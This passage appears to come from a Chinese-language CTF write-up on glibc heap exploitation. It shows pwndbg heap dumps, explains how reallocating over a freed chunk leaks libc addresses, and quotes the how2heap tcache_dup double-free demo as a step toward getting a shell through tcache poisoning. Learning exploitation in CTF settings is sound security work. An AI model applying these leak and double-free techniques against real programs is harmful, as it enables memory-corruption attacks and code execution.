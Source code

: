 ```bash
pwndbg> x/8x 0x55a2d6e3a790
0x55a2d6e3a790:	0x0000000000000540	0x0000000000000500
0x55a2d6e3a7a0:	0x0000000063636363	0x0000000000000000
0x55a2d6e3a7b0:	0x0000000000000000	0x0000000000000000
0x55a2d6e3a7c0:	0x0000000000000000	0x0000000000000000

#free after
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x563204289000      0x0                 0x250                Used                None              None
0x563204289250      0x0                 0xa40                Freed     0x7f01905acc78    0x7f01905acc78
0x563204289c90      0xa40               0x20                 Used                None              None
pwndbg> x/8x 0x563204289250
0x563204289250:	0x0000000000000000	0x0000000000000a41
0x563204289260:	0x00007f01905acc78	0x00007f01905acc78
0x563204289270:	0x0000000000000000	0x0000000000000000
0x563204289280:	0xdadadadadadadada	0xdadadadadadadada
pwndbg>
```

 这时我们再新建一个chunk分配大小和chunk0一样时，chunk就会分配到chunk0所在的位置，这时我们show(0)即可leak_libc

这样我们所有的前置工作就做好了，接着就是通过tcache_dup和tcache_poisoning来getshell了

首先我们先通过how2heap了解下

```c
#include <stdio.h>
#include <stdlib.h>
//tcache_dup
int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with tcache.\n");

	fprintf(stderr, "Allocating buffer.\n");
	int *a = malloc(8);

	fprintf(stderr, "malloc(8): %p\n", a);
	fprintf(stderr, "Freeing twice...\n");
	free(a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p ].\n", a, a);
	fprintf(stderr, "Next allocated buffers will be same: [ %p, %p ].\n", malloc(8), malloc(8));

	return 0;
}
```
